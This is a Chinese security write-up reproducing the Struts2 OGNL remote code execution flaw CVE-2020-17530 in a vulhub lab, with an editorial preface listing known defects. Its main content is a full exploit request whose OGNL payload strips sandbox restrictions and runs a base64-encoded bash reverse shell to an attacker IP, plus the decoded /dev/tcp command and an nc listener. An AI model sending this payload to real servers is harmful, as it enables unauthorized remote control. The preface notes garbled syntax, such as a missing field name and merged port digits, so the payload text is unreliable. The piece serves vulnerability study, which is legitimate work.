




# CVE-2020-17530：Struts2 远程代码执行漏洞复现

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.5.25实验，危险标签二次求值、Tomcat/BeanMap/FreeMarker依赖；非任何表单
- 证据范围：与241同链，反弹请求转码后丢关键语法，需恢复源文。

### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- multipart Content-Disposition丢name=id，header/body缺空行
- 命令bash-c{...}及bash -c{...}均丢必要空格，直接例端口66660>&1粘连
- 环境命令段仅GitHub链接，实际依赖下载/目录未完整说明
- 只称特定环境未给危险模板，修复新版本不写明确2.5.26
- 去重复横幅/空行，保留损坏复现待恢复而非继续复制

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/bqaiVyaQTwX16wW9Qmy08g)

  

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****hatjwe****@Timeline Sec  
**

**本文字数：1042**

**阅读时长：3~4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Struts2 是一个基于 MVC 设计模式的 Web 应用框架，它本质上相当于一个 servlet，在 MVC 设计模式中，Struts2 作为控制器 (Controller) 来建立模型与视图的数据交互。
--------------------------------------------------------------------------------------------------------

**0x02 漏洞概述**  

  

**漏洞编号 CVE-2020-17530**  

--------------------------

CVE-2020-17530 是对 CVE-2019-0230 的绕过，Struts2 官方对 CVE-2019-0230 的修复方式是加强 OGNL 表达式沙盒，而 CVE-2020-17530 绕过了该沙盒。  

在特定的环境下，远程攻击者通过构造恶意的 OGNL 表达式，可造成任意代码执行。

**0x03 影响版本**  

Struts 2.0.0 – Struts 2.5.25

**0x04 环境搭建**  

为  

这里用的 vulhub 环境一键搭建  

执行如下命令启动一个 Struts2 2.5.25 版本环境

```
https://github.com/vulhub/vulhub/blob/master/struts2/s2-061/
```

1、启动 Struts 2.5.25 环境:

```shell
docker-compose up -d
```



2、环境启动后，访问**查看首页**

```
http://target-ip:8080/index.action
```



**0x05 漏洞复现**  

1、发送如下数据包，即可执行反弹 shell 命令：  

```http
POST /index.action HTTP/1.1 
Host:192.168.20.129:8080 
Accept-Encoding: gzip, deflate 
Accept: */* 
Accept-Language:en 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36 
Connection: close
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF 
Content-Length: 922  
------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data;  

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash-c{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwLjEyOC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```



2、这里为反弹 shell 命令：

```
(#arglist.add("bash -c{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwLjEyOC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute"))
```

进行 linux 反弹 shell 命令：  

```shell
bash -i >& /dev/tcp/192.168.20.128/66660>&1（PS：反弹shell涉及到管道符问题于是要将命令进行base64编码）
```

  

base64 在线编码：  

http://www.jackson-t.ca/runtime-exec-payloads.html  

3、在攻击机监听本地端口：  

```shell
nc -lvvp 6666
```

运行脚本成功反弹回 shell

  

**0x06 修复建议**  

Struts 官方已经发布了新版本修复了上述漏洞，请受影响的用户尽快升级进行防护。

```
参考链接：
```

https://github.com/vulhub/vulhub/blob/master/struts2/s2-061/README.zh-cn.md  

  


  


**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
